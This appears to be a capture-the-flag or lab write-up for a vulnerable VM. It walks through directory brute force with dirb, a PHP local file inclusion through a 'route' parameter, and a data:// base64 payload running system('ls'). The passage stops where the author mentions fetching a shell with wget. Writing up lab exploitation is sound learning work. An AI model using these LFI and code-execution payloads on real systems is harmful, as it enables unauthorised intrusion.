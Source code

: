 {% endhighlight %}


<h3 id="bigimage">Brute Force Result!</h3>
<p>It looks that we are going to need some of the web application skills :D. The web site is really simple and no much information has.</p><p>brute force directories is my favorate. Many tools could do this task, such as wfuzz, dirb, and dirbuster, for this one, I have used dirb on Kali linux, and I have the following:</p>
<p><div data-height="268" data-theme-id="0" data-slug-hash="bcqhe" data-default-tab="js" data-user="rglazebrook" class='codepen'>
<pre><code>main.php
content.php
nav.php
bomb.php
info.php
props.php
</code></pre></div></p>

<p>info.php shows much information about the php and its environment and the useful information that I could get is the following:</p>
<pre><code>allow_url_fopen		On
allow_url_include	On
$_SERVER['DOCUMENT_ROOT']	/var/www/html
$_SERVER['SCRIPT_FILENAME']	/var/www/html/info.php</code></pre>

<h3 id="bigimage">LFI</h3>
<pre><code>💥  ⑂aS3r 🎃  >> curl -x 127.0.0.1:8080 http://192.168.64.22</code></pre>	
<p>during the examination, I have noticed that the index page sends a post request to content.php with route parameter <code>route=main</code>! Since I know there is a info.php file on the same directory, I have tried to put <code>route=info</code>!!! Surprisingly, I have the same page as the info.php. Therefore, here we have <code>include</code> function with <code>.php</code> at the end!</p>

<p>To confirm that is a LFI vulnerabilty. I have tried the following since I know the full path of the web server</p>
<code>route=../../../var/www/html/info</code>
<p>And bingo! we have LFI without any filter, but we still require to get off the <code>.php</code>!!! For this one, I have spend some time trying some of bypass LFI techinques, and the only one that works with me is:</p>

<code>route=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOyA/Pg==</code>
<p>Using LFI, I was able to perform remote command injection using the base64 form of the following php code:</p>
{% highlight php %}<?php system('ls'); ?>{% endhighlight %}

<h3 id="bigimage">Reverse Shell</h3>
<p>Therefore, I was able to <code>wget</code> my shell. The following picture shows that I have successfully downloaded the cmd.php file:</p>
<img src="/assets/images/milnet/upload.jpg" />
